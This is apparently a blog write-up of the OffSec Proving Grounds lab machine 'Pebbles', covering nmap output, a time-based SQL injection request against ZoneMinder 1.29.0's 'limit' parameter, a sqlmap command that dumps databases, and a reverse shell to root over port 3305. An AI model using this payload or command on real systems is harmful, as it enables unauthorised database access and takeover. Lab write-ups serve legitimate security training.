 ```yaml
---
title: "Proving grounds Practice: Pebbles"
layout: post
date: 2023-08-18 06:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Practice
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```

## Nmap

```sh
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 aacf5a9347180e7f3d6da5aff86aa51e (RSA)
|   256 c7636c8ab5a76f05bfd0e390b5b89658 (ECDSA)
|_  256 93b26a1163861b5ef5895852897ff342 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 7EC7ACEA6BB719ECE5FCE0009B57206B
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Pebbles
3305/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tomcat
|_http-favicon: Apache Tomcat
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Directory Fuzzing

![img](/assets/images/CTF/Proving_Grounds/Pebbles/dir.png)

**ZoneMinder v1.29.0**

![img](/assets/images/CTF/Proving_Grounds/Pebbles/zm.png)

Zoneminder v1.29.0 is vulnerable to SQL Injection vulnerability.

**Searchsploit**

![img](/assets/images/CTF/Proving_Grounds/Pebbles/searchsploit.png)

## Construct and Exploit SQL Injection vulnerability

### Request

```http
POST /zm/index.php HTTP/1.1
Host: 192.168.210.52
Content-Length: 112
Accept: application/json
X-Requested-With: XMLHttpRequest
X-Request: JSON
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Content-type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.210.52
Referer: http://192.168.210.52/zm/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: zmSkin=classic; zmCSS=classic; ZMSESSID=e6s5540cs098ev3kra5sksjme6
Connection: close

view=request&request=log&task=query&limit=100;(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
```

### Response

![img](/assets/images/CTF/Proving_Grounds/Pebbles/response.png)

The vulnerability says the `limit` parameter is vulnerable and automate the exploit using sqlmap.

```sh
sqlmap -u http://192.168.210.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=1" -p limit --batch --dbs --risk 3 --level 4
```

![img](/assets/images/CTF/Proving_Grounds/Pebbles/db.png)

**Obtain reverse shell via sqlmap**

![img](/assets/images/CTF/Proving_Grounds/Pebbles/os-shell.png)

**Transfer nc and obtain reverse shell**

![img](/assets/images/CTF/Proving_Grounds/Pebbles/os-shell2.png)

**Root Obtained**

Use PORT `3305` to get reverse connection sucessfully. Other ports are not allowed in the system.

![img](/assets/images/CTF/Proving_Grounds/Pebbles/root.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
